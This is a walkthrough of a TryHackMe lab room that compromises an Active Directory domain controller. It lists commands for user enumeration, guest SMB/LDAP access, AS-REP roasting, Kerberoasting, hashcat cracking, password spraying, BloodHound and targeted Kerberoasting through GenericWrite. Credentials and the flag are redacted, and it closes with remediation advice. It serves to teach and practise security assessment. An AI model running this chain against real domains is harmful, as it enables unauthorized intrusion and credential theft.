



# Operation Endgame — Security Assessment Walkthrough

> **Platform:** TryHackMe  
> **Room:** Operation Endgame  
> **Difficulty:** Hard  
> **Environment:** Microsoft Active Directory / Windows  
> **Domain:** `thm.local`  
> **Target Role:** Domain Controller  
> **Public edition:** challenge flag intentionally redacted

---

## 1. Executive Summary

Operation Endgame demonstrates a multi-stage Active Directory compromise driven by excessive identity exposure, weak service-account credentials, password reuse, an overly permissive ACL and hardcoded privileged credentials.

The initial scan identifies a Domain Controller with DNS, IIS, Kerberos, LDAP, SMB, RPC, Global Catalog and RDP services. Anonymous and Guest access are available and provide enough information to enumerate domain principals. LDAP yields a large username set, which is then used to assess Kerberos-based credential attacks.

AS-REP roasting identifies vulnerable accounts, but the supplied wordlist does not produce a usable credential from that branch. Guest-enabled Kerberoasting is more productive: a service ticket for `CODY_ROY` is recovered and cracked. The resulting password is reused by `ZACHARY_HUNT`.

BloodHound then reveals that `ZACHARY_HUNT` has `GenericWrite` over `JERRI_LANCASTER`. That relationship is used for targeted Kerberoasting. The recovered `JERRI_LANCASTER` credential provides RDP access, where a readable PowerShell synchronization script exposes credentials for `SANFORD_DAUGHERTY`.

BloodHound confirms `SANFORD_DAUGHERTY` as a Domain Administrator, completing the domain compromise.

> **Public portfolio policy:** challenge flags, full crackable hashes and answer-only secrets are redacted.

---

## 2. Scope and Objectives

The assessment objectives were:

- enumerate the Windows/AD attack surface;
- identify anonymous and Guest exposure;
- retrieve domain and user information;
- evaluate Kerberos pre-authentication weaknesses;
- identify crackable service-account material;
- test password reuse;
- map AD relationships;
- abuse excessive ACL permissions;
- obtain an interactive Windows session;
- locate additional credential material;
- validate Domain Administrator access.

---

## 3. Reconnaissance

A full TCP scan is performed with RustScan:

```bash
rustscan -a 10.49.128.29 --range 1-65535 -- -A -sC -Pn
```

The supplied results identify:

```text
53/tcp      DNS
80/tcp      IIS
88/tcp      Kerberos
135/tcp     MSRPC
139/tcp     NetBIOS
389/tcp     LDAP
443/tcp     HTTPS
445/tcp     SMB
464/tcp     Kerberos password change
593/tcp     RPC over HTTP
636/tcp     LDAPS
3268/tcp    Global Catalog LDAP
3269/tcp    Global Catalog LDAPS
3389/tcp    RDP
9389/tcp    .NET Message Framing
47001/tcp   Microsoft HTTPAPI
49xxx/tcp   Windows RPC
```

### Interpretation

This is not a conventional Windows web server. The combined Kerberos, LDAP, Global Catalog and SMB services strongly identify an Active Directory Domain Controller.

That changes the assessment priority from web-specific exploitation to domain identity enumeration and credential attack surfaces.

---

## 4. DNS and IIS

Port 53 is identified as Simple DNS Plus. The supplied enumeration did not reveal useful additional subdomains.

Port 80 exposes Microsoft IIS 10.0 and a default Windows landing page. The HTTPS service does not expose an application-specific weakness in the supplied material.

These services establish the host context but do not provide the principal compromise path.

---

## 5. Kerberos User Enumeration

Kerbrute is used to identify valid domain principals:

```bash
kerbrute userenum -d thm.local \
  /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
  --dc 10.49.128.29 -t 100
```

The supplied output confirms valid users including:

```text
guest@thm.local
administrator@thm.local
```

Later LDAP enumeration expands this into a much larger principal list.

### Why this matters

Validated usernames can be reused across several AD attack paths:

- AS-REP roasting;
- password spraying;
- credential validation;
- BloodHound relationship analysis.

---

## 6. RPC Null Authentication

Unauthenticated RPC access is tested:

```bash
rpcclient -U "" -N 10.49.128.29
```

SID and share enumeration attempts return:

```text
NT_STATUS_ACCESS_DENIED
```

### Interpretation

Anonymous session establishment is possible, but privilege checks prevent unrestricted RPC enumeration.

This is still relevant reconnaissance because it confirms that the environment accepts anonymous authentication boundaries.

---

## 7. SMB and Guest Exposure

SMB enumeration reports that the server allows sessions with empty credentials.

Guest access is then validated:

```bash
smbclient //TARGET/ -U 'guest'
```

RID brute forcing is also possible:

```bash
nxc smb TARGET -u 'guest' -p '' --rid-brute
```

### Security Significance

Guest exposure provides additional identity and group information before a normal domain credential is obtained.

---

## 8. LDAP Information Disclosure

Unauthenticated LDAP querying is possible:

```bash
ldapsearch -x -H ldap://TARGET -b "DC=thm,DC=local"
```

The response confirms the `thm.local` naming context and standard Active Directory subtrees.

User principals are extracted using:

```bash
ldapsearch -x -H ldap://TARGET \
  -b "DC=thm,DC=local" | grep userPrincipalName
```

The resulting list contains hundreds of users.

### Why this matters

A large directory-derived username list significantly strengthens subsequent Kerberos and password-attack workflows.

---

## 9. AS-REP Roasting Assessment

The enumerated usernames are tested for accounts without Kerberos pre-authentication:

```bash
impacket-GetNPUsers thm.local/ \
  -dc-ip TARGET \
  -usersfile users.txt \
  -format hashcat \
  -outputfile hashes.txt
```

Multiple roastable accounts are identified and hashes are recovered.

The supplied wordlist does not crack them successfully.

### Assessment Result

AS-REP roasting is a valid configuration weakness in the domain, but it is not the successful credential-acquisition branch used for compromise.

---

## 10. Guest Kerberoasting

Guest LDAP access exposes a service principal associated with `CODY_ROY`.

A Kerberoasting request is performed:

```bash
nxc ldap TARGET \
  -u guest -p '' \
  --kerberoasting output_hash.txt \
  --kdcHost TARGET
```

The source evidence shows the returned account is:

```text
CODY_ROY
```

and the output contains a `$krb5tgs$23$` ticket hash.

### Finding

A Guest-accessible Kerberoast path turns an information-disclosure weakness into password-cracking material.

---

## 11. Kerberos Hash Cracking

The captured service-ticket material is attacked with Hashcat:

```bash
hashcat -m 13100 cody.hash /usr/share/wordlist/rockyou.txt
```

The source material reports successful credential recovery.

The exact password is omitted here because it is a CTF secret and is not necessary to explain the attack chain.

### Security Impact

The service account becomes a valid credential source for further domain enumeration.

---

## 12. BloodHound Collection

The recovered service-account identity is used to collect AD relationship data:

```bash
bloodhound-python -c All \
  -u CODY_ROY \
  -p 'REDACTED' \
  -d thm.local
```

The initial graph does not present a direct privileged path.

This makes password reuse the next high-value validation step.

---

## 13. Password Spraying / Credential Reuse

The recovered password is tested against the enumerated users:

```bash
kerbrute passwordspray \
  --dc TARGET \
  -d thm.local \
  users.txt \
  "REDACTED"
```

The supplied evidence reports successful logins for:

```text
CODY_ROY
ZACHARY_HUNT
```

### Interpretation

The second hit is critical. A service-account password has been reused by a different domain identity.

This moves the compromise from a limited account to a user with a more useful AD permission relationship.

---

## 14. BloodHound Attack-Path Analysis

BloodHound identifies:

```text
ZACHARY_HUNT
      │
      └── GenericWrite
             ↓
      JERRI_LANCASTER
```

<p align="center">
  
</p>

**Figure 01 — BloodHound identifies `GenericWrite` from `ZACHARY_HUNT` to `JERRI_LANCASTER`.**

### What `GenericWrite` means here

`GenericWrite` permits modification of properties on the target object.

In Active Directory, excessive object-level write permissions can become privilege-escalation or credential-access paths when combined with a suitable target and Kerberos service configuration.

That is exactly the role it plays here.

---

## 15. Targeted Kerberoasting

The discovered ACL path is exploited using a targeted Kerberoasting workflow:

```bash
targetedKerberoast.py \
  -d thm.local \
  -u ZACHARY_HUNT \
  -p 'REDACTED' \
  --dc-ip TARGET \
  --request-user JERRI_LANCASTER
```

A Kerberos service-ticket hash is obtained for `JERRI_LANCASTER`.

The full hash is intentionally omitted from the public documentation.

---

## 16. Cracking the Targeted Ticket

Hashcat is used against the captured ticket:

```bash
hashcat -m 13100 \
  jerri.hash \
  /usr/share/wordlists/rockyou.txt
```

The source material reports that the password is successfully recovered.

Again, the exact credential is redacted from the public edition.

---

## 17. RDP Access as Jerri Lancaster

The recovered credential provides remote desktop access:

```bash
xfreerdp3 \
  /u:JERRI_LANCASTER \
  /p:'REDACTED' \
  /v:TARGET \
  +clipboard \
  +drives \
  /drive:share,/root/ \
  /dynamic-resolution
```

The environment restricts direct access to several Windows interfaces. A command shell can still be started through:

```text
Windows + R → cmd
```

### Result

The attack has progressed from domain credential access to an interactive Windows desktop session.

---

## 18. Local Enumeration

A custom PowerShell script is discovered:

```text
C:\Scripts\syncer.ps1
```

Listing:

```powershell
ls C:\Scripts
```

reveals the file.

Reading it:

```powershell
type .\syncer.ps1
```

shows that it stores a domain credential pair for an Active Directory synchronization task.

The password is not reproduced in the public portfolio.

### Finding

Readable automation code is functioning as a credential store.

---

## 19. Credential Validation

The recovered `SANFORD_DAUGHERTY` credentials are validated over SMB:

```bash
nxc smb TARGET \
  -u 'SANFORD_DAUGHERTY' \
  -p 'REDACTED' \
  --shares
```

The supplied evidence reports successful authentication and access to administrative shares including:

```text
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
```

---

## 20. Domain Administrator Identification

BloodHound confirms the recovered identity is associated with the Domain Admins group and the domain controller.

<p align="center">
  
</p>

**Figure 02 — Domain Administrator relationship and domain-controller access.**

This establishes the final privilege level required by the room.

---

## 21. Final Administrative Access

The Domain Administrator credentials are used for RDP access.

Administrative access to the Windows host is confirmed through the supplied room material.

The final challenge answer is deliberately excluded from this public portfolio.

---

## 22. Attack Chain Summary

```text
Domain Controller Discovery
          ↓
Anonymous / Guest Exposure
          ↓
LDAP User Enumeration
          ↓
AS-REP Roasting Assessment
          ↓
Guest Kerberoasting
          ↓
CODY_ROY Credential Recovery
          ↓
Password Reuse
          ↓
ZACHARY_HUNT
          ↓
BloodHound
          ↓
GenericWrite
          ↓
JERRI_LANCASTER
          ↓
Targeted Kerberoasting
          ↓
JERRI_LANCASTER Credential Recovery
          ↓
RDP
          ↓
syncer.ps1
          ↓
SANFORD_DAUGHERTY Credentials
          ↓
Domain Administrator
          ↓
Final Access
```

---

## 23. Security Findings

### Finding 01 — Anonymous / Guest Exposure

**Severity:** High

**Issue:** Anonymous and Guest access provide useful Active Directory enumeration primitives.

**Root Cause:** Excessive unauthenticated access to SMB/RPC/LDAP.

**Impact:** User and domain information can be collected before legitimate authentication.

**Evidence:** Successful Guest session and RID/LDAP enumeration.

**Remediation:**

- Disable unnecessary Guest access.
- Restrict anonymous enumeration.
- Harden SMB and LDAP exposure.
- Monitor anonymous directory queries.

---

### Finding 02 — LDAP Information Disclosure

**Severity:** High

**Issue:** User/domain information is retrievable without strong authentication.

**Impact:** Produces a large candidate set for Kerberos and password attacks.

**Remediation:**

- Restrict directory information disclosure.
- Review anonymous bind requirements.
- Monitor bulk directory enumeration.

---

### Finding 03 — Guest Kerberoasting

**Severity:** High

**Issue:** Guest can obtain service-ticket material for a service account.

**Impact:** Offline password cracking becomes possible.

**Remediation:**

- Restrict unnecessary SPNs.
- Use strong random service-account passwords.
- Prefer gMSA where applicable.
- Reduce RC4 dependencies.

---

### Finding 04 — Password Reuse

**Severity:** High

**Issue:** A recovered service-account password is valid for another domain identity.

**Impact:** Credential reuse expands the compromise to a more useful account.

**Remediation:**

- Enforce unique passwords.
- Use password screening.
- Prefer managed service identities.

---

### Finding 05 — Excessive `GenericWrite`

**Severity:** Critical

**Issue:** `ZACHARY_HUNT` can modify `JERRI_LANCASTER`.

**Impact:** Enables targeted Kerberoasting and credential recovery.

**Evidence:** Supplied BloodHound relationship.

**Remediation:**

- Remove unnecessary object-level write rights.
- Apply least privilege to AD ACLs.
- Perform periodic BloodHound-style ACL audits.

---

### Finding 06 — Hardcoded Domain Credentials

**Severity:** Critical

**Issue:** `syncer.ps1` contains credentials for a domain identity.

**Impact:** File read access becomes credential access.

**Remediation:**

- Remove passwords from scripts.
- Use gMSA or secure secret storage.
- Rotate exposed credentials immediately.

---

### Finding 07 — Domain Administrator Exposure

**Severity:** Critical

**Issue:** Discovered credentials correspond to a Domain Administrator.

**Impact:** Full domain compromise.

**Remediation:**

- Separate administrative accounts from standard workflows.
- Use privileged access workstations.
- Restrict RDP.
- Alert on unexpected Domain Admin logons.
- Rotate any compromised privileged credential.

---

## 24. MITRE ATT&CK Mapping

| Tactic | Technique |
|---|---|
| Discovery | Account Discovery |
| Discovery | Permission Groups Discovery |
| Credential Access | Kerberoasting |
| Credential Access | Password Spraying |
| Credential Access | Unsecured Credentials |
| Credential Access | Credentials from Files |
| Discovery | Permission / ACL Discovery |
| Privilege Escalation | Account / ACL Abuse |
| Lateral Movement | Remote Services: RDP |
| Credential Access | Password Hash Cracking |

---

## 25. Defensive Recommendations

### Identity Security

- Enforce strong unique passwords.
- Eliminate password reuse.
- Prefer gMSA for service identities.
- Restrict Guest and anonymous access.

### Kerberos Security

- Audit service principals.
- Reduce RC4 usage.
- Review accounts lacking Kerberos pre-authentication.
- Monitor anomalous ticket requests.

### Active Directory ACLs

- Audit `GenericWrite`, `GenericAll`, `WriteDACL` and related rights.
- Remove unnecessary object-level permissions.
- Regularly review privilege graphs.

### Secrets

- Never hardcode domain credentials.
- Use secure credential stores.
- Use managed service accounts where applicable.
- Rotate exposed credentials immediately.

### Privileged Access

- Separate administrative identities.
- Restrict RDP.
- Monitor Domain Admin authentication.
- Use dedicated privileged workstations.

---

## 26. Lessons Learned

### Enumeration Discipline

The initial attack path is built almost entirely from information disclosure.

### Credential Chaining

A weak service credential became much more valuable because it was reused by another user.

### Graph-Based Security Analysis

BloodHound converted a large directory into a concrete attack path.

### ACL Security

Object permissions can create direct credential-access paths even when group membership looks harmless.

### Secret Hygiene

A readable PowerShell automation script can be more dangerous than an exposed service because it can contain reusable privileged credentials.

### Least Privilege

Domain Admin credentials should never be recoverable from ordinary user-accessible automation files.

---

## 27. Evidence

### Figure 01 — GenericWrite

<p align="center">
  
</p>

### Figure 02 — Domain Admin

<p align="center">
  
</p>

### Figure 03 — Room Completion

<p align="center">
  
</p>

No fabricated screenshots or artificial terminal output are used as evidence.

---

## 28. Flag Protection

```text
Final Flag → [FLAG REDACTED]
```

The exploitation chain is fully documented while the final challenge answer remains hidden.

---

## 29. Conclusion

Operation Endgame demonstrates how an Active Directory environment can be compromised through a sequence of individually manageable weaknesses:

**Guest exposure → directory disclosure → Kerberos credential access → password reuse → ACL analysis → GenericWrite abuse → targeted Kerberoasting → RDP → hardcoded privileged credentials → Domain Administrator**

The primary defensive lesson is that AD security must be assessed as a connected privilege graph. Password hygiene, ACL hygiene, service-account design and secret storage all need to work together; failure at one layer can amplify weaknesses at another.

**Enumeration → credential access → relationship analysis → ACL abuse → lateral movement → privileged credential discovery → administrative access**

---

**Author:** Anurag Ravankar  
**Purpose:** Authorized TryHackMe research and cybersecurity portfolio
